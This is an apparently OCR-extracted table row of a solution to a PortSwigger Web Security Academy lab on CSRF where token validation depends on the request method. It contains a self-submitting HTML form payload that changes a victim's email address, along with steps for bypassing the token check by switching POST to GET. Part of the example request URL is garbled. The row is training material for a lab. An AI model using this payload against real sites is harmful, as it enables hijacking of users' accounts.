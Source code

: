 |43    |CSRF where token validation depends on request method                                                                    |<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">     <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script>         document.forms[0].submit(); </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |Changing the value of the csrf parameter rejects the request.  Change the request type from POST to GET, and note that the csrf token is no longer verified. Note that this should be done by right clicking the request and selecting “Change request type”. Request will then look like:  GET /my-account/change-email?email=kento%http://40kentosec.com/&csrf=jRN4RSu27T7l2qEflkfXzkq7lj0ymX8i HTTP/1.1  Rather than having the parameters in the body, it is added to the URL.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |CSRF, Practitioner                          |